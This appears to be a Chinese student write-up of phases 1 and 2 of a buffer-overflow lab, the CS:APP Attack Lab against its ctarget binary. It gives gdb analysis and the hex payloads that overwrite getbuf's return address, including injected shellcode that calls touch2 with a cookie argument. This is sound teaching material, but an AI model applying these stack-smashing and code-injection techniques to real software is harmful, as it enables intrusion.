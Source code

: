 ## phase 1

一个练手的，要求通过缓冲区栈溢出攻击来调用 touch1

`gdb ctarget` 然后 `set args -q` 防止与不存在的服务器通信（`run -q` 也可以)
`b Gets` `run -q`

看一下栈信息: 
```
────────────────────────[ STACK ]────────────────────────
00:0000│ rsp 0x5561dc70 —▸ 0x4017b4 (getbuf+12) ◂— movl $1, %eax
01:0008│ rdi 0x5561dc78 ◂— 0
... ↓        3 skipped
05:0028│     0x5561dc98 —▸ 0x55586000 ◂— 0
06:0030│     0x5561dca0 —▸ 0x401976 (test+14) ◂— movl %eax, %edx
07:0038│     0x5561dca8 —▸ 0x55685fe8 —▸ 0x402fa5 ◂— pushq $0x3a6971 /* 'hqi:' */
```

rsp 是当前栈顶指针，由于是在 Gets 的开头查看的，所以栈顶存的就是 Gets 的返回地址

思路应该是覆盖栈顶指针 `0x5561dc70` 处的
正确返回地址为 `touch1` 的地址`0x4017c0`

如何覆盖？看一下读入字符串的逻辑：

`_IO_getc@plt` 很明显是库函数 getchar()   
那附近是一个循环，如果是 -1 (`0x7ffffffff`) 就跳出，  
如果不是 0xA (经查表这个就是 ASCII 的行分隔符）就读入下一个 char

那就看一下读入单个字符的逻辑   
$rbx = $rdi, 推测 $rdi 作为 Gets() 的第一个参数就是存到的字符串地址   
也就是说 (%rdi) 应该就是我们输入的字符串存储地址的第一位
当然这里因为要调用 `_IO_getc` 并且 rdi 是调用者保存寄存器  
所以先用 rbx 存一下 rdi 

看了下 Gets 的 $rdi 存的是 `0x5561dc78`    
发现其实缓冲区不在 Gets() 的栈帧里(78 > 70, 栈内存向低地址增长）...

重新观察 `getbuf` 的汇编代码，发现 `sub $0x28, %rsp`，分配了 40 字节的缓冲区   
由于缓冲区栈溢出攻击的原理大概是这样：

```
// 注意这个栈是从高地址向低地址增加的

+------------------------+ 高地址
| caller 返回地址        | <- 函数返回时跳转的位置
+------------------------+
| buffer[40]             | <- callee 的栈帧
| buffer[39]             |
| ...                    | <- 缓冲区
| buffer[1]              |
| buffer[0]              | <- 缓冲区起始
+------------------------+ 低地址
```

所以只能向相对缓冲区更高的地址溢出，于是换个思路，在 getbuf 处 ret 到 touch1   
所以就不用考虑 Gets 的细节了，一共 40 字节的 buffer, 直接填充 40 个 `00`，  
然后填充 `c0 17 40` 即可(gdb 中在 getbuf 起始处看 %rsp 也能发现就是 `0x5561dca0 = 0x5561dc78 + 0x28` )

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```

一个地址对应的通常是一字节，而一个十六进制的每个位数是 4 个二进制位 (1111=15=f)

两个十六进制位就是一字节。

由于只有网络协议相关会用大端法，所以这里是小端法，地址小的位置存的是低位

至于 `hex2raw` (Hexadecimal to Raw), 其实就是 `echo -n -e "\xc0\x17\x40"` 

## phase 2

要求将 `cookie.txt` 作为参数传递给 `touch2` 并调用

至此调用函数我们已经非常熟悉了，直接填充对应函数的地址到溢出后的位置即可。   
但是我们还需要传递参数，所以就不能再填充 `00` 了。   
这个 `ctarget` 编译时是关闭栈保护的，也就是说栈内存上的代码可以直接被执行。

编写 `phase2_inject.asm`:
```asm
mov      $0x59b997fa, %rdi
pushq    $0x4017ec
ret
```

其中，`0x59b997fa` 是 cookie，`0x4017ec` 是 `touch2` 的地址。    
当然这个是 AT&T 的语法，`nasm` 默认似乎是 Intel，所以我用 `as`

```shell
$ as phase2_inject.asm
$ objdump -d a.out

a.out:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          push   $0x4017ec
   c:   c3
```
于是得到了我们的 `inraw.txt`
```
48 c7 c7 fa 97 b9 59 90 
68 ec 17 40 00 90 90 90 
c3 00 00 00 00 00 00 00 
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
78 dc 61 55 00 00 00 00
```

这里 90 是 `nop`, 用于填充的，不过似乎不需要?   
返回地址也直接覆盖为 `0x5561dc78`， 缓冲区开始的地方，也就是我们注入代码开始的地方   
还是要注意小端法。

(用时最短的一个，第一个做完第二个就轻车熟路了)

